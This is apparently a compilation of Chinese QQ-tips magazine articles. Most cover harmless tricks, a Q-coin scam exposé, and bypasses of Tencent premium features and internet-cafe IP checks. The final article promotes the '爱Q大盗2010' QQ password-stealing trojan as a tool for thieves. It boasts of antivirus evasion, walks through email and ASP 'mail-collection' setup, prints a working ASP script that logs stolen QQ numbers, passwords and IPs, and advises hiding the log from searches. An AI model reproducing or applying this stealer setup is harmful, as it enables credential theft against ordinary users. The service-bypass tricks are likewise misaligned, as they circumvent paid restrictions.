打开自己QQ空间，注意一定要开通了QQ农场，否则腾讯根本没有数据是查询不了的，我们把刚才复制的代码粘贴到浏览器的地址栏中并点击后边的“转到”，就可以获取我们从开始玩QQ农场到现在所有“收获”的数据了，如图3所示。此时我们再返回“http://www.toolmao.com/farmrank/rank.asp”，输入自己刚才提交的QQ号并点击“搜索排名”，就可以看到自己的排名情况了，如图4。

图4

是不是很方便呢？NO，我们不可能每天都来查询的，别人要是趁机偷走我的菜该怎么办呢（*^__^*），好在我早就考虑到了这一点，只需要一张图片就可以了。我们在刚才查询的地方可以看到一个“生成农场动态图”的按钮，输入自己的QQ号码然后点击它，就会来到生成农场动态签名图的页面，在这里我们选择图片的背景样式以及图标样式就可以了，系统会自动生成图片的链接地址，我们点击“复制图片地址”就会提示复制成功，如图5所示。

图5

我们可以把这个图片地址弄到QQ空间中，因为我们偷菜时都会访问QQ空间的，这样就能及时地关注排名信息了。再次打开自己的QQ空间，点击“自定义”，再选择“模块”选项，点击“新建模块”，选择“大图模块”，如果选择“图文模块”的话，图片会很小，看得不太清楚。我们在图片地址栏中填写刚才复制的地址，其它的可以不用填写，然后点击“确定”，再把刚才弄成的模块拉到合适的位置，点击保存就行了，如图6所示。现在我们就可以看到一张显示自己QQ农场等级的动态图了，我们还可以把它弄到百度贴吧、博客等等，使用手机的朋友也可以通过手机访问博客来获取图片，就可以看到自己的农场等级了。

图6

## 三秒！网罗博客里珍藏的QQ空间日志的备份

（光午休）惠琦

图1

大家是否写了很多精致的QQ空间日志呢？是否担心有朝一日QQ被盗，心爱的日志全部丢失呢？以前有过很多空间日志备份工具，比较好用的有 Blogbackup 等，但这些软件是要收费的（而且直至今日也没有破解版公布出来），对于这类收费的工具，我想绝大多数的小菜都不愿意去接受花费 money 的这个现实。于是我就在网上找了一段时间，终于找到了一款免费而又实用的备份工具，不敢私藏，特写出本文推荐给大家使用。

这款软件的使用特别简单，但需要注意的是，对于 Windows 7 以及 Vista 用户，需要有管理员权限才行。解压工具后，双击运行 QQBackup.exe，软件的界面如图1所示。

图2

我们先输入自己的QQ号码，然后依次点击“获取文章”→“备份”，等待一段时间后，再点击一下“导出”按钮，简单的两步以后，我们的日志就可以自动导出到软件的根目录下了，而且是图文并茂的，非常不错，如图2所示。

（文章中涉及到的QQ空间备份工具，已经收录在了光盘中）

## 看我QQ大变身，QQ群靓号也来BUG

年晓东

最近网上流行着一个叫“QQ群靓号BUG代码”的记事本文档，据说可以将自己在群中的号码显示为自定义的QQ号，比如666666、888888等超牛的号码。我在百度上一搜索，呵呵，结果还真不少，随便点击了一个进去，下载后解压缩得到了一个大小仅为1K的文本文档，双击打开，里面只有一行内容“昵称(QQ号)”。

我们按照这个格式，把自己的QQ昵称和想要显示的超牛QQ号依次输入进去，比如“小年东(888888)”，如图1所示，然后按组合键 Ctrl+A 将其全选，再按住 Ctrl+C 复制所选内容，等待接下来的使用。

登录你的QQ，任意选择打开一个QQ群，先单击右上角的“群设置”按钮，进入“群设置”窗口后单击选择第二项“群名片”，然后在“群昵称”后的文本输入框中使用快捷键 Ctrl+V 将刚才在“QQ群靓号BUG代码”中复制下来的代码粘贴到这里，再把下方的“允许管理员协助修改我的群名片”前的对勾取消掉，最后单击“确定”按钮就行了，如图2所示。

此时，你在此群中的“群成员”列表中，QQ的显示就成为靓号了。如法炮制，将你所在的所有QQ群都这样粘贴一次，超级QQ群靓号我们就免费拥有了。

## 要想刷Q币和QQ业务的阴谋

老蒋

### 一、揭秘网络刷QB的阴谋

在今年第5期的杂志中，我又看到了“炫风舞”所写的“刷钻工具背后的阴谋”一文后，终于是坐不住了，在此就为广大的QQ爱好者揭秘一些可恶的陷阱——刷Q币。Q币的作用就不用我多说了吧，就好像你在QQ世界里的人民币一样，有些人因为自己钱包空空而绞尽脑汁想办法去刷Q币，于是就到网上搜索刷Q币的方法以及刷Q币的工具，我亲爱的叉子们啊，大家可别找了，那些都是骗人的，现在我就为大家来说明。

在土豆网、优酷网或者一些大型网站上，以“Q币”之类的关键词进行搜索时，就会出现很多关于刷Q币的视频，那这些都是假的，我就给大家来举一些例子吧，我们随便选择一个打开，如图1。

大概意思就是说对方发现了一个腾讯的充值账号 XXXXXX，然后让你使用Q币充值时在QQ专号处填入那个账号，然后就会随机翻倍，比如说你充了100Q币，那么使用这个充值帐号时就会翻10倍、100倍、1000倍。事实上问题就出在这个腾讯的充值帐号 xxxxxx 上，其实这是行骗者用来行骗的QQ号。可能有叉子要问了，为什么把这个账号放在查询面板中查询时却显示不出来，这怎么会是QQ号呢，如图2、图3所示。这正是对方行骗的关键了。

- 1、QQ卡“刷”Q币

知道叉子们在上面的图3中看到有个“主显帐号”没有，问题就出在这儿，叉子们到网上搜索一下什么是主显帐号，就会明白原因了，我就不在这里多说了。

### 2、刷Q币工具的行骗之法

这种方法是最卑鄙的了，即便它是工具。这类工具表面上制作得非常好，也很诱惑人，许多人都陷在了里面不能自拔。双击运行我从网上下载回来的某个刷Q币工具，上面有刷Q币50Q币、100Q币、300Q币，以及其它各种业务，还有刷等级的等，可是当我们点击某个选项时，就会出现一个对话框，提示说“未注册版本不能刷”，意思就是让我们去注册一个帐号。注册的方法有两种，一种是输入手机号码，我随便填了一个符合手机号码格式的手机号，但是都给出了同样的答复；第二种方法就是获取共享注册码，点击进入网址是 www.000sec.com，网址都那么恐怖，我是不敢进了，亲爱的叉子们，你们有勇气的话可以进哦，但万一中了木马请后果自负哟……

刷Q币工具都是一个原理，表面上制作得很诱人，但是在使用时却需要注册，这猫腻就在这里：有比较温柔的，让你输入手机号，然后吃你的话费，你的话费就这样不翼而飞了；有比较性急的，让你交钱并称之为“入会注册费”，当你满怀欣喜地交了这二三十元钱后，就会给你一个不好使的验证码或者根本就不给你，拍拍屁股走了不理你了；还有更暴力的，就是在工具中添加个后门之类的病毒，让你计算机瘫痪，或者是让你的计算机成为行骗者的肉鸡，盗取你计算机上的资料，那就得不偿失了。刷Q币是假的，叉子们千万别相信啊，那些话就让他们去见鬼吧（当然我不排除有真正能刷Q币的工具，但至少我还没有遇到，这类工具肯定很难得了，是钱都买不到的）！

### 二、原来刷QQ业务也有阴谋

QQ业务就是那些和超级QQ、短信超人、图书VIP之类的花钱业务，毕竟谁都想让自己的资料卡上更花哨一些，下面我就带大家揭秘如何真正地获取QB和QQ业务。

### 1、使用ADSL宽带刷业务

ADSL是个人用户家中上网的必备条件，而使用这种方法来刷业务也是目前的一个主流方法，但这方法也够卑鄙的了，使用别人的宽带来满足自己的虚荣心，别的我也就不想说了，大家见好就收吧！

这些人主要是使用一些远控木马入侵别人的电脑，如图4所示，然后再使用ADSL密码查看器来获取对方的ADSL密码进行刷业务的，如图5。也正因此，希望大家不要随便打开从网上下载的一些不知情的软件，很有可能就是恶意的远控木马服务端程序，倘若你运行了，那就不幸中招了。反正各位叉子一定要提高警惕，防止被别人偷到自己的宽带帐号和密码，那可就损失大了。

##### 2、用手机暂停方法刷业务（移动）

用手机卡暂停方法来刷业务在以前确实是可以用的，但现在已经不能用了，叉子我其实很长时间以前就开始关注这个方法了，也曾经成功地试用过。大致过程就是先用移动手机发短信，很麻烦的，并且发一条一角钱，信息台回复一条一角钱，也很费钱，然后再使用网上流传的暂停软件，把手机开的业务全部暂停，就刷钻成功了，钱也不扣了，如图6。奉劝各位叉子这个方法就不要再尝试了，因为目前这个漏洞已经被堵上了；这个方法刷出来的只能使用一个月就会被冻结，而解绑是需要花钱的，大家就节省点话费吧！

好，发送时把号码的前八位改为9777，也就是把10661700XXX改为9777XXX，这样就刷成功了，但是这个方法我也试过，根本就不好使，而且也照样会扣钱的。

##### 3、用手机变更信息台号码刷（联通）

上面我介绍了移动手机刷业务的方法，下面再介绍一下联通的刷钻方法；联通的刷钻方法不同于移动，联通刷钻不需要软件，只需要给信息台发短信时动一下手脚……把10661700改为9777，并且始终从头到尾都改成9777……

至此，叉子我所掌握的刷钻刷Q币的陷阱就全介绍给大家了，希望各位叉子看完本文后要提高警惕，不要让自己成为了别人的肉鸡，更不要平时无聊而尝试其中的某一种方法……还是老老实实地花钱，尽力而为吧。

> （文章中涉及到的移动梦网免费开钻漏洞利用工具已经收录在了光盘中）

## 随时随地享受QQ网吧的魅力

hx小龙（白雪龙）

QQ网吧，是由腾讯公司支持的特殊网吧，这类网吧需要下载QQ网吧的网关，通过腾讯的审核后才能加入。腾讯公司为QQ网吧免费提供各种产品的体验，推出了各种精彩的活动和QQ游戏的特殊加成……

但这个世界就是让我们很无奈，不公平的事情总是在发生……如果我们在QQ网吧中登录QQ，那么QQ面板上就会出现一个“网吧”的按钮，如图1所示。

但终究还是道高一尺，魔高一丈，下面我就教大家如何突破IP的限制，实现在任何地方都能过一把腾讯QQ网吧的瘾。首先我们运行QQ网吧VPN，软件如图2所示……

## QQ宝典

点击确定，返回到桌面上，双击运行刚才生成的快捷方式，如图3所示。

抽奖等活动，我们也同样可以参加了。由于IP是代理过去的，所以不明原因的叉子，也不要疑惑为什么自己的QQ显示了异地登录，因为这纯属正常现象，如图4。

用户名保持不变，密码为空就可以了，点击“连接”，当网吧VPN成功连接后，我们重新登录自己的QQ，看看QQ面板那里是不是已经出现QQ网吧的图标了？点击进去，这时我们虽然不在QQ网吧中，但是IP已经代理到了QQ网吧的IP上，游戏加成和QQ网吧抽奖等活动也可参与。

（文章中涉及到的QQ网吧VPN，已经收录到了光盘中）

### 非黄钻用户也来无限制使用贵族信纸

李文亮

非黄钻用户也能随意使用黄钻贵族才可以用的任何一款皮肤。我们需要用到的工具是“免费信纸代码获取器”，其运行后的界面如图2所示。首先我们打开QQ空间→发表日志→选择信纸，在自己喜欢的信纸上点击右键选择属性，查看它的图片地址。

当大家看到文章题目的时候不要惊讶，因为它确确实实地存在。我们都知道只有黄钻用户才可以随意使用QQ空间为它们准备的那些精美的信纸，如图1所示，下面我就教大家如何突破不是黄钻用户的限制。

得到类似 `http://cnc.qzs.qq.com/qzone/space_item/pre/9/编号_1.gif` 的一串地址，如图3所示，其中“编号_1.gif”的编号就是我们需要的东西。

我们复制下这个编号，再来到“免费信纸代码获取器”中，在“请输入编号”的编辑框中输入获取的编号，然后点击“获取”按钮，就会得到类似下面的一段 HTML 代码。

<DIV class=real_blog id=veryContent style="overflow-y:visible;background-Image:url(http://imgcache.qq.com/qzone/space_item/orig/9/54841_bg.jpg);text-indent:2em;height:auto!important;min-height:530px;height:530px;">


```html
<!--module name:童年回忆 | module tag: none-->
<TABLE id=blogContentTable style="TABLE-LAYOUT: fixed; WIDTH: 100%; POSITION: relative" cellSpacing=0 cellPadding=0>
<TBODY><TR><TD style="WORD-WRAP: break-word" vAlign=top>
<DIV id=blogContainer style="OVERFLOW: hidden;POSITION: relative;HEIGHT: 100%;padding-Right:30px;padding-Left:30px">
...
...
<SPAN id=paperTitle style="DISPLAY: block;FONT-WEIGHT: bolder;WORD-BREAK: break-all;PADDING-TOP:25px">...</SPAN>
...
</DIV></DIV>
```

style="DISPLAY: none" src="http://imgcache.qq.com/ac/b.gif"></DIV>
</TD></TR></TBODY></TABLE>

```html
id=blogDetailDiv style="FONT-SIZE: 16px">日志内容</DIV></DIV>
<DIV class=clear id=paperBottom style="PADDING-TOP:80px"></DIV></DIV></DIV>
```

把它们全部复制下来，返回到日志编辑器，点击“高级模式->HTML”，把得到的 HTML 代码全部粘贴进去，然后返回。好了，现在这款皮肤就已经完全属于你了，在中间写下你的日志正文发表吧。实际效果如图4所示……



图4

（文中涉及到的免费信纸代码获取器已经收录在光盘中）

## 掀起红色Q新旋风

### 软小菜玩转新版爱Q大盗

说到“爱Q大盗”，我们并不需要多么华丽的辞藻去修饰和形容……曾经的爱Q大盗已经升级到了“爱Q大盗2010正式版”，那么在功能上它又出现了哪些可喜的功能呢？让我们来阅读以下的内容共同拭目以待吧。



软件生成器增加了论坛的绑定功能，只有经过登录验证为华夏的会员才能正常登录使用软件的相关功能……破解后在登录时需要把“论坛用户名、论坛密码”登录框中的内容全部删除掉，也就是保持账户和密码为空进行登录，如图2所示。

## QQ宝典



爱Q大盗采用了全新的技术，全面支持主流的QQ2009、QQ2010，包括最新的QQ2010 SP1测试版。木马在截取QQ密码时，并不是靠模拟登录框来盗取，而是采用了密码注入技术，不写服务，不写注册表，不修改系统文件，靠QQ感染启动。同时为了木马的存活率，程序支持ASP空间和邮箱双收信，增加了“数字签名”，这样我们生成的木马，就可以轻松地过掉国内的杀毒软件，为我们的传播和欺骗提供了极大的便利。

我把生成后的木马送到了在线杀毒网站进行检测，结果如图3所示，36款杀毒软件只疑似地报了2款，所以爱Q大盗不只是盗Q的利器，盗Q者必备的工具。









> > 小知识：什么是数字签名
>
> 简单地说，所谓数字签名就是附加在某数据单元上的一些数据，或是对数据单元所作的密码变换。这种数据或变换允许数据单元的接收者用于确认数据单元的来源和数据单元的完整性并保护数据，防止被人（例如接收者）进行伪造。它是对电子形式的消息进行签名的一种方法。数字签名的应用涉及法律问题，且与具体应用环境密切相关。

#### 一、邮箱收信

接下来我们进行木马的配置和使用，先来看第一个选项“邮箱收信”。使用邮箱收信时，邮箱必须要开启SMTP和POP3服务，这里我以QQ邮箱为例，打开邮箱，选择“设置”→“账户”，勾选上相应的服务，如图4。

大家注意，新申请的QQ号无法开启此服务，必须要开通邮箱7天以后才行。不过我并不建议大家使用QQ邮箱，因为我们发送的邮件有可能会遭到拦截而导致邮箱不稳定，除了QQ邮箱外大家还可以使用网易邮箱，同样也支持SMTP和POP3服务。在“收信箱、发信箱、发信账号和发信密码”中输入自己的邮箱信息，如果我们是使用邮箱收信的话，为了防止被黑客反破解，建议大家设置的收信箱和发信箱不要使用同一个。

我为了方便测试，就都使用了我的QQ邮箱，填写完毕后，点击“测试”按钮，测试发信，如图5、图6所示。

### 二、ASP空间收信

将选项卡切换到“ASP收信”中，程序自带了一款收信ASP文件，我们来对它简单地分析：

```asp
strLogFile='password.txt'            //帐号密码保存的文件
Number=request('Number')             //接受盗取的QQ账号
PassWord=request('PassWord')         //接受盗取的QQ密码
ip=request('ip')                     //接受盗取QQ号码的对应IP地址
if Number='' or PassWord='' then
  response.write 'failed'
  response.end
End If

StrLogText=StrLogText&Number&'---'&PassWord&'---IP:'&ip&'('&request.servervariables('REMOTE_HOST')&')'
StrLogText=StrLogText&'---'&date&' '&time
set fs=Server.CreateObject('scripting.filesystemobject')
set ff=fs.opentextfile(server.mappath('.')&'\'&date,8,true,0)
```

```asp
ff.writeline(chr(13)+chr(10)&StrLogText)
ff.close
set ff=nothing
set f=nothing
response.write("succeed")
%>
```

将账号密码以及时间日期连接，利用FSO发往strLogFile这个变量所属的值中即password.txt，如果发送成功则写入succeed。

为了收信的安全，我们同样也要进行一些保护措施。在代码分析的最后一句说到了ASP文件把接收到的所有值都连接了起来，然后发送到了strLogFile这个变量所属的值中（password.txt），所以为了避免我们辛苦盗取的Q号拱手送人，可以对生成密码的文本名字作出改变，比如修改成hackxfiles.txt的名字或者其它格式，这样就不会轻易被挖掘机或者Google Hack找到了。把提供的ASP文件上传到我们的空间中去，空间需要支持FSO，然后在软件配置处填写收信的地址，点击测试，如果出现如图7所示的提示，就表示发信成功，最后我们只要生成木马即可。



关于这版爱Q大盗的清除方法，比起上一版本还是简单了许多，第一步我们要重新启动计算机，然后删除QQ目录和所有子文件，再然后重新安装QQ即可。（文章中涉及到的爱Q大盗2010破解版已经收录在光盘中）

## QQ运行的安全“黑客之门”

